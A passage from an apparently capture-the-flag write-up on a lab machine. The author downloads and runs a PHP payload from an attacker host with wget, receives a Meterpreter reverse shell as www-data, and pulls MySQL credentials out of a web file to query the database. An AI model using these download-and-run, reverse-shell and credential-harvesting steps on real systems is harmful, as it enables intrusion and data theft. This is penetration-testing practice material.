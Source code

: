 ```
> wget http://10.10.14.23:443/snowscan.php -O /tmp/snowscan.php

> php /tmp/snowscan.php
```

I got a meterpreter session a few seconds after.

```
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.23:80
[*] Encoded stage with php/base64
[*] Sending encoded stage (51106 bytes) to 10.10.10.126
[*] Meterpreter session 1 opened (10.10.14.23:80 -> 10.10.10.126:47394) at 2019-04-15 02:18:34 -0400

msf5 exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: www-data (33)
```

The first thing I did once I got a shell was check if I could access `user.txt` but the `/home/guly` directory isn't readble by `www-data`. Next I grabbed the MySQL credentials from `/var/www/html/index.php`:

```
$servername = "localhost";
$username = "nestedflanders";
$password = "1036913cf7d38d4ea4f79b050f171e9fbf3f5e";
$db = "neddy";
$conn = new mysqli($servername, $username, $password, $db);
```

I don't have an interactive TTY so I have to issue queries directly from the shell.

```
mysql -u nestedflanders -p1036913cf7d38d4ea4f79b050f171e9fbf3f5e -e "show tables" neddy

Tables_in_neddy
config
customers
employees
filepath
idname
offices
orderdetails
orders
payments
productlines
products
```

### Escalating to a new shell as user guly
